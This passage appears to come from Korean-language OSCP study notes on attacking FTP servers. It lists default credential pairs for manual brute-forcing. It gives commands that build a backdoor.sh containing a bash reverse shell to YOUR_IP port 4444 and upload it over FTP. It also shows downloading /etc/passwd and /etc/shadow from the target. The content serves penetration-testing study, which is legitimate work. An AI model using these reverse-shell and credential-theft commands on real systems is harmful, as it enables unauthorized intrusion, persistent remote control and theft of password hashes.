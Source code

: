 ### 🔹 FTP 서버 브루트포스 (수동, OSCP 허용)

```bash
# 수동으로 일반 계정 확인
ftp target_ip
> admin
> admin
> exit

ftp target_ip
> root
> root
> exit
```

수동 테스트할 일반적인 사용자명/비밀번호 조합:

- admin:admin
- admin:password
- root:root
- root:toor
- administrator:password
- ftp:ftp
- anonymous:(빈 비밀번호)
- user:user
- guest:guest

## 4. FTP 서버를 통한 파일 전송 기법

### 🔹 공격자 서버에서 타겟으로 파일 전송

```bash
# 로컬에 전송할 파일 준비
echo '#!/bin/bash' > backdoor.sh
echo 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1' >> backdoor.sh
chmod +x backdoor.sh

# FTP를 통해 파일 업로드
ftp target_ip
> username
> password
ftp> cd /upload/directory
ftp> binary  # 중요! 바이너리 모드로 전환
ftp> put backdoor.sh
ftp> quit
```

### 🔹 타겟 시스템에서 파일 가져오기

```bash
# 타겟에서 중요 파일 다운로드
ftp target_ip
> username
> password
ftp> cd /etc
ftp> binary
ftp> get passwd
ftp> get shadow  # 권한이 있을 경우
ftp> quit
```

